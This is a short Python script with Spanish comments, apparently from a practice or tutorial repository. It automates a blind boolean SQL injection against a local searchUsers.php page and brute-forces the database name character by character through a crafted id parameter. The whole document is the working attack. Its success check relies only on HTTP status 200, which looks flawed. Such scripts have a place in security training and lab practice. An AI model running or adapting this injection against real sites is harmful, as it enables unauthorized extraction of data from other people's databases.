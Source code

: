 ---------------------

### CODIGO

```python
#!/usr/bin/python3

import requests
import signal
import sys
import time
import string
from pwn import log

# Manejador de señal para Ctrl+C
def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Asignar el manejador de señal para Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable

# Función para realizar la inyección SQL
def makeSQLi():
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Datos extraídos")

    extracted_info = ""

    # Enumerar posiciones y caracteres
    for position in range(1, 50):  # Suponemos un límite de 50 caracteres
        for character in range(33, 126):  # Rango de caracteres ASCII imprimibles
            sqli_url = main_url + "?id=1 or (select(select ascii(substr((database()), %d, 1)) from users where id=1)=%d)" % (position, character)

            p1.status(sqli_url)

            # Enviar la solicitud al servidor
            r = requests.get(sqli_url)

            # Verificar si el código de estado HTTP es 200 (éxito)
            if r.status_code == 200:
                extracted_info += chr(character)
                p2.status(extracted_info)
                break

if __name__ == '__main__':
    makeSQLi()

```
